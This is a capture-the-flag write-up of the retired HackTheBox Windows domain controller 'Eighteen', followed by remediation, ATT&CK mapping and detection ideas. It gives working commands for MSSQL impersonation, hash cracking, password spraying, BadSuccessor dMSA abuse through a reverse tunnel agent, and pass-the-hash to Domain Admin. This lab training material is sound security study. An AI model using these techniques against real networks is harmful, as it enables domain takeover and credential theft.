

## Machine Overview

| Field | Details |
|-------|---------|
| **Name** | Eighteen |
| **OS** | Windows (Domain Controller) |
| **Difficulty** | Easy |
| **Domain** | `eighteen.htb` (DC01) |
| **Key Skills** | MSSQL login impersonation, PBKDF2 hash cracking, password spraying, BadSuccessor / dMSA abuse, Pass-the-Hash |

> This box is assumed-breach: we start with valid credentials for `kevin`, as is common in real-world Active Directory engagements.
{: .prompt-info }

> Published after the machine was retired, in line with HackTheBox content rules.
{: .prompt-info }

**Starting credentials:** `kevin : iNa2we6haRj2gaw!`

## Attack Path at a Glance

We authenticate to MSSQL as `kevin` and discover we can impersonate the `appdev` login. As `appdev` we read an application database and recover the web admin's PBKDF2 hash. Cracking it reveals a password that is reused across the domain — a spray hands us `adam.scott` and the user flag. Finally, `adam.scott` sits in a group with create rights over an OU on a **Windows Server 2025** domain, which we abuse via **BadSuccessor** to mint Administrator keys and Pass-the-Hash to a Domain Admin shell.



## Reconnaissance

### Port Scan

```console
$ nmap 10.129.62.193 -sV -sC
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-26 17:44 -0500
Nmap scan report for 10.129.62.193
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://eighteen.htb/
1433/tcp open  ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info:
|     Target_Name: EIGHTEEN
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: eighteen.htb
|     DNS_Computer_Name: DC01.eighteen.htb
|_    Product_Version: 10.0.26100
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 4h59m57s, deviation: 0s, median: 4h59m56s
```
{: file="nmap output (trimmed)" }

**Takeaways:**
- **`DC01` / `eighteen.htb`** → this is a Domain Controller, so we're working against Active Directory.
- **`Product_Version: 10.0.26100`** → Windows Server 2025 build. Worth remembering — it enables a newer escalation path later.
- **MSSQL (1433)** exposed alongside our starting credentials is the obvious first target.
- The large **`clock-skew`** (~5h) means Kerberos operations will fail until we sync our clock to the DC (`sudo ntpdate eighteen.htb` or `faketime`).

Adding the host to `/etc/hosts`:

```console
$ echo "10.129.62.193 eighteen.htb DC01.eighteen.htb" | sudo tee -a /etc/hosts
```

Port 80 served a basic application and yielded nothing useful on its own, so I pivoted to MSSQL.

## Initial Access

### MSSQL Login Impersonation

Authenticating to MSSQL with the provided credentials succeeds:

```console
$ impacket-mssqlclient EIGHTEEN/kevin:'iNa2we6haRj2gaw!'@10.129.62.193
[*] Encryption required, switching to TLS
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
SQL (kevin  guest@master)>
```

In SQL Server, a login can be granted `IMPERSONATE` rights over another login. If `kevin` can impersonate a more privileged principal, that becomes our escalation path *inside* the database. I enumerated impersonation grants:

```sql
SELECT pr.name AS grantee, pe.name AS can_impersonate
FROM sys.server_permissions sp
JOIN sys.server_principals pr ON sp.grantee_principal_id = pr.principal_id
JOIN sys.server_principals pe ON sp.major_id = pe.principal_id
WHERE sp.type = 'IM' AND sp.class = 101;
```

```text
grantee   can_impersonate
-------   ---------------
kevin     appdev
```

Switching context to `appdev` and confirming:

```sql
EXECUTE AS LOGIN = 'appdev';
SELECT SYSTEM_USER;   -- → appdev
```

### Looting the Application Database

As `appdev`, an application database becomes readable. Enumerating and dumping the `users` table:

```sql
USE financial_planner;
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
SELECT * FROM users;
```

```text
id    full_name  username  email               password_hash                                                        is_admin
--    ---------  --------  -----               -------------                                                        --------
1002  admin      admin     admin@eighteen.htb  pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f...   1
```

### Cracking the PBKDF2 Hash

hashcat's PBKDF2-HMAC-SHA256 mode (`10900`) expects the fields in a specific order with **base64-encoded** salt and digest, not the raw Werkzeug string. A one-liner does the conversion:

```console
$ python3 -c "
import base64
salt = 'AMtzteQIG7yAbZIa'
h = '0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133'
salt_b64 = base64.b64encode(salt.encode()).decode()
hash_b64 = base64.b64encode(bytes.fromhex(h)).decode()
print(f'sha256:600000:{salt_b64}:{hash_b64}')"
sha256:600000:QU10enRlUUlHN3lBYlpJYQ==:BnOtkKC0r7GdZiM28Pzjqe3Qt7GRk3F74ozk1myIcTM=
```

```console
$ hashcat -m 10900 hash.txt /usr/share/wordlists/rockyou.txt
...
sha256:600000:QU10enRlUUlHN3lBYlpJYQ==:BnOtkKC0r7GdZiM28Pzjqe3Qt7GRk3F74ozk1myIcTM=:iloveyou1
Status...........: Cracked
```

> **Dead ends:** the recovered password unlocked the admin account on the web app and on WinRM as `admin`, but neither led anywhere. The value of the credential turned out to be as spray material, not as a direct login.
{: .prompt-warning }

### RID Brute + Password Spray

A single reused password is only useful if we know *who* to try it against. MSSQL lets us brute-force RIDs to enumerate domain accounts, even with our low-privileged login:

```console
$ netexec mssql eighteen.htb -u kevin -p 'iNa2we6haRj2gaw!' --local-auth --rid-brute | tee rid_brute.txt
```

I extracted the human accounts into `users.txt`:

```console
$ cat users.txt
jamie.dunn
jane.smith
alice.jones
adam.scott
bob.brown
carol.white
dave.green
```

Then sprayed the cracked password across those users over WinRM:

```console
$ netexec winrm eighteen.htb -u users.txt -p iloveyou1 --continue-on-success
...
WINRM  eighteen.htb\adam.scott:iloveyou1  (Pwn3d!)
```

### Shell as `adam.scott`

```console
$ evil-winrm -i 10.129.62.193 -u adam.scott -p 'iloveyou1'
*Evil-WinRM* PS C:\Users\adam.scott\Desktop> cat user.txt
********************************
```

## Privilege Escalation — BadSuccessor (dMSA)

### Local Enumeration

Standard post-foothold checks — privileges, group memberships, and config files. Searching the filesystem turned up a `.py` script containing a clear-text username and password, but those credentials led nowhere.

> **Dead end:** the hard-coded credentials in the Python script were a rabbit hole; they weren't valid for any reachable service.
{: .prompt-warning }

The domain functional level is the detail that mattered:

```console
*Evil-WinRM* PS C:\inetpub> Get-ADDomain
...
DomainMode : Windows2025Domain
DomainSID  : S-1-5-21-1152179935-589108180-1989892463
```

A **Windows Server 2025** domain introduces **delegated Managed Service Accounts (dMSA)** — and with them, the **BadSuccessor** technique disclosed by Akamai. In short: any principal holding create-child (or write) rights over *an OU* can create a dMSA, link it to a target account (e.g. `Administrator`), and have the KDC issue that dMSA keys that inherit the target's — effectively impersonating a Domain Admin.

Checking whether our user has such rights with Akamai's helper script:

```console
*Evil-WinRM* PS C:\Users\adam.scott\Desktop> .\Get-BadSuccessorOUPermissions.ps1
Identity     OUs
--------     ---
EIGHTEEN\IT  {OU=Staff,DC=eighteen,DC=htb}

*Evil-WinRM* PS C:\Users\adam.scott\Desktop> whoami /groups
...
EIGHTEEN\IT   Group   S-1-5-21-1152179935-589108180-1989892463-1604 ...
```

### Abusing the dMSA

`bloodyAD` automates the attack: create a dMSA under the writable OU, mark it as the "successor" of `Administrator`, and retrieve the resulting keys. Because `bloodyAD` runs from my host, I first pushed a `ligolo-ng` agent to the target to route traffic into the internal interface (`240.0.0.1`):

```console
# on target: agent.exe connects back; ligolo-ng tunnel established
$ bloodyAD -d eighteen.htb -u adam.scott -p 'iloveyou1' -H 240.0.0.1 \
    add badSuccessor badsucc6 --ou "OU=Staff,DC=eighteen,DC=htb" --prepatch
[+] Creating DMSA badsucc6$ in OU=Staff,DC=eighteen,DC=htb
[+] Impersonating: CN=Administrator,CN=Users,DC=eighteen,DC=htb
...
dMSA previous keys found in TGS (including keys of preceding managed accounts):
RC4:  0b133be956bfaddf9cea56701affddec
```

### Pass-the-Hash → Domain Admin

```console
$ evil-winrm -i 10.129.62.193 -u Administrator -H '0b133be956bfaddf9cea56701affddec'
*Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
********************************
```

Domain compromised. 🏁

## Defender's View

Thinking like a consultant, each weakness in this chain has a concrete fix:

| # | Finding | Severity | Remediation |
|---|---------|----------|-------------|
| 1 | MSSQL login `kevin` can impersonate `appdev` | High | Remove unnecessary `IMPERSONATE` grants; apply least privilege to SQL logins |
| 2 | Application admin password stored as crackable PBKDF2 | Medium | Enforce strong, unique passwords; PBKDF2 protects storage but not weak passwords |
| 3 | Password reuse across web app and domain account | High | Ban credential reuse; separate application and directory identities |
| 4 | Weak, sprayable password (`iloveyou1`) on a domain account | High | Enforce password policy + MFA; monitor for spray patterns |
| 5 | Hard-coded credentials in a `.py` file on disk | Medium | Remove secrets from source; use a secrets manager |
| 6 | Non-tier-0 group holds write rights over an OU (BadSuccessor) | Critical | Audit and remove OU create/write DACLs; monitor dMSA creation; apply the Server 2025 patch |

### MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|--------|-----------|----|
| Discovery | Cloud/Domain Account Discovery | T1087 |
| Credential Access | Brute Force: Password Cracking | T1110.002 |
| Credential Access | Brute Force: Password Spraying | T1110.003 |
| Credential Access | Unsecured Credentials: Credentials in Files | T1552.001 |
| Privilege Escalation | Domain Policy Modification / Account Manipulation | T1098 |
| Lateral Movement | Use Alternate Authentication Material: Pass-the-Hash | T1550.002 |

### Detection Ideas

- **MSSQL:** alert on `EXECUTE AS LOGIN` chains and RID-style enumeration from low-privileged logins.
- **Spray:** correlate many failed WinRM/logon (4625) events for one password across accounts in a short window.
- **BadSuccessor:** monitor dMSA object creation (event 5137) and changes to `msDS-DelegatedMSAState` / `msDS-ManagedAccountPrecededByLink`; treat any non-tier-0 principal writing to an OU as suspicious.
- **PtH:** watch for logons with NTLM where interactive logons are expected on the DC.

## Lessons Learned

- **SQL Server impersonation** (`EXECUTE AS`) is an easy-to-miss lateral path inside the database layer — always enumerate `IMPERSONATE` grants.
- Getting the **hashcat input format** right (base64 salt/digest for mode `10900`) matters as much as the wordlist.
- A cracked credential's real value was **reuse**, not the account it came from — the spray was the pivot.
- **BadSuccessor** makes any OU write ACL on a Server 2025 domain a direct path to Domain Admin. Enumerating domain functional level early pointed straight at it.

## References

- [Akamai — BadSuccessor: Abusing dMSA](https://github.com/akamai/BadSuccessor) — OU permission check + technique background
- [bloodyAD](https://github.com/CravateRouge/bloodyAD) — `badSuccessor` module
- [ligolo-ng](https://github.com/nicocha30/ligolo-ng) — tunneling to reach the internal interface
- [hashcat mode 10900](https://hashcat.net/wiki/doku.php?id=example_hashes) — PBKDF2-HMAC-SHA256
